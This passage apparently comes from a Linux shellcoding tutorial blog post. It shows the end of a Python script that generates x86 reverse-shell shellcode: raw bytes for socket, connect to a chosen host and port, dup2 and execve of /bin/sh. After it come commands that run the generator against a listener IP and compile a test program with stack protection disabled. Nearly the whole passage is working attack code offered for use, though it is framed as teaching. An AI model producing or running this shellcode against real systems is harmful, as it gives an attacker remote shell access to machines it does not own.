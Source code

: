 ```py
    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW)
    print ("hex port: x" + p1 + "x" + p2)
    print (ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd"
    shellcode += "\\x80\\x92\\xb0\\x66\\x68"
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69"
    shellcode += "\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)

```

Prepare listener, run script, copy shellcode to our test program, compile and run:         
```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

![run C code](./images/14/2021-10-16_17-38.png){width="80%"}       

So our shellcode is perfectly worked :)        

This is how you create your own shellcode, for example.             


[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)              
[Shellcoding in Linux by exploit-db](https://www.exploit-db.com/docs/english/21013-shellcoding-in-linux.pdf)              
[my intro to x86 assembly](https://cocomelonc.github.io/tutorial/2021/10/03/malware-analysis-1.html)          
[my nasm tutorial](https://cocomelonc.github.io/tutorial/2021/10/08/malware-analysis-2.html)           
[ip](https://man7.org/linux/man-pages/man7/ip.7.html)                
[socket](https://man7.org/linux/man-pages/man2/socket.2.html)           
[connect](https://man7.org/linux/man-pages/man2/connect.2.html)             
[execve](https://man7.org/linux/man-pages/man2/execve.2.html)         
[first part](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)                   
[Source code in Github](https://github.com/cocomelonc/2021-10-17-linux-shellcoding-2)         
